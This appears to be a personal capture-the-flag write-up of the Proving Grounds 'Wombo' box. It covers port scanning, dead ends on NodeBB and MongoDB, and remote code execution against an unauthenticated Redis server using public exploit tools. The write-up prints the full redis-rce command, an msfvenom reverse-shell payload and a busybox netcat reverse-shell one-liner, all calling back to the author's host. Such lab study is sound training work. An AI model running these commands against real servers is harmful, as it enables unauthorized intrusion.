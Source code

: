 ```yaml
---
layout: writeup
title: Wombo - Proving Grounds
date: 2024-07-19 13:32:20 +0300
description: A Writeup of the Wombo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Redis]
---
```


Here's box on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/) we have Wombo from Proving Grounds. This box is rated as Easy, and the community rates it as Intermediate. Let's see how complicated I can make it for myself. And I'll kick things off with an nmap scan revealing: 

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8080/tcp  open  http-proxy
27017/tcp open  mongod
```

I begin by visiting ports 80 and 8080 while running directory scans in the background. Port 80 looks to be the default landing page for nginx, so we may have to wait for directory scans on that one. 
![Wombo1.png](/assets/images/Wombo/Wombo1.png){: .center-aligned width="600px"}


Port 8080 looks to be a web app called NodeBB. I click around on that for a while, but it doesn't look like there's much content here. I can create a user, and there is an upload page for a cover photo, but it does seem like it's restricted by file type. If we try uploading a php file for example, the option to crop comes before the final upload button which won't work if it's a php, so we can't make changes in Burp easily. I may have to come back to that. 

![Wombo2.png](/assets/images/Wombo/Wombo2.png){: .center-aligned width="600px"}


We also have a redis instance on port 6379. It does not require authentication, but enumerating it briefly doesn't reveal anything interesting. I'll have to try a few of the exploits from hacktricks on here like dumping the db, RCE with redis-rogue-server, PHP webshell, and template webshell. Unfortunately dumping the db reveals nothing, redis-rogue-server doesn't work, we can't upload a PHP webshell because the db is read only, and uploading a template doesn't work. 

I am a little tempted by MongoDB on port 27017, if only because the lab is called Wombo. It's just close enough. I am able to access it using mongo `192.168.185.69:27017`, but it requires authentication to show users, collections, or dbs. 

I spent a while trying to find anything to work with here. Port 80 shows nothing at all on directory scans. Port 8080 does return some directories from the NodeBB application, but there don't appear to be any juicy exploits with it, and we have no usernames or passwords to at least kick off a reasonable brute force with it. I can get no information from mongodb, it's not even clear that there actually are any non-empty db's. 

Turns out I had to combine exploits again as with [Sybaris](LINK)(**ADD LINK**). There is an exploit called [Redis-RCE](https://github.com/Ridter/redis-rce), but the README.md links another exploit to get a required redis module from, and this link is broken. It turns out we can use the `exp.so` module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0)that we used in Sybaris and simply move it to the redis-rce folder. It's pretty annoying because I had tried to load it my kali, but this doesn't work because with Sybaris we uploaded it to an ftp server and were able to load it locally. The final command is:
`./redis-rce.py -r 192.168.185.69 -p 6379 -L 192.168.45.183 -P 6379 -f exp.so`

![Wombo3.png](/assets/images/Wombo/Wombo3.png){: .center-aligned width="600px"}

This shell had some weird behavior, for example no initial response to the `id` command, and it appeared that some commands were being returned only after a subsequent command was ran. As such, I decided to download another reverse shell and run it from this interactive shell. I used `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=27017 -f elf -o reverse27017.elf` and downloaded it, catching it from a penelope listener. 

![Wombo4.png](/assets/images/Wombo/Wombo4.png){: .center-aligned width="600px"}

Some other command line shells didn't work, but the busybox one actually did (`busybox nc 192.168.45.183 27017 -e /bin/bash`). I'd initially tried it over port 4444, and that wasn't going to work. 

Lessons learned: This was a pretty unsatisfying box for me. I had to combine exploits in a way that wasn't really intuitive, and I'm not sure how I would have done that without looking it up. The module we loaded could have just been packaged with the exploit rather than having a separate module associated with a broken link. So I guess the lesson is that if I need to exploit redis with a public exploit, I either need an an AMD machine or I need to remember to keep pulling the same malicious module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0). Which is indeed a lesson. 

